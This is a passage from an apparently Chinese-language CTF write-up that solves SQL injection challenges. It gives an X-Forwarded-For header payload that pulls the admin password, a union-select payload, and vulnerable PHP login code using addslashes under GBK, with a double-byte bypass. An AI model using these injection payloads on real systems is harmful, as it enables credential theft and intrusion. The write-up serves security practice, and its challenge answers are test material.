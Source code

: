 利用方式：

头中不能使用 urlencode，末尾空格会被会忽略

```
X-Forwarded-For: 127.0.0.1,8888',(select gbu_password from gbook_user where gbu_name='admin')) # 
```

如果非要使用--也可以这样构造

```
X-Forwarded-For: 127.0.0.1,8888',(select gbu_password from gbook_user where gbu_name='admin')) -- a 
```

## MD5.SALT

* * *

这道题是一道简单的注入，不过需要破解 MD5，在网站上付费一下就可以了。

漏洞代码：

题目没有给出源代码

利用方式：

```
' union select password,2 from users -- 
```

## Addslashes

* * *

这题的参数使用了 Addslashes()函数进行了过滤，使用双字节绕过即可。

漏洞代码：

```
function asvsmysql_login($username, $password)
{
        $username = addslashes($username);
        $password = md5($password);

        if (false === ($db = gdo_db_instance('localhost', ADDSLASH_USERNAME, ADDSLASH_PASSWORD, ADDSLASH_DATABASE, GWF_DB_TYPE, 'GBK'))) {
                return htmlDisplayError('Can`t connect to database.');
        }

        $db->setLogging(false);
        $db->setEMailOnError(false);

        $query = "SELECT username FROM users WHERE username='$username' AND password='$password'";

        if (false === ($result = $db->queryFirst($query))) {
                return htmlDisplayError('Wrong username/password.');
        }

        if ($result['username'] !== 'Admin') {
                return htmlDisplayError('You are logged in, but not as Admin.');
        }

        return htmlDisplayMessage('You are logged in. congrats!');
}

```
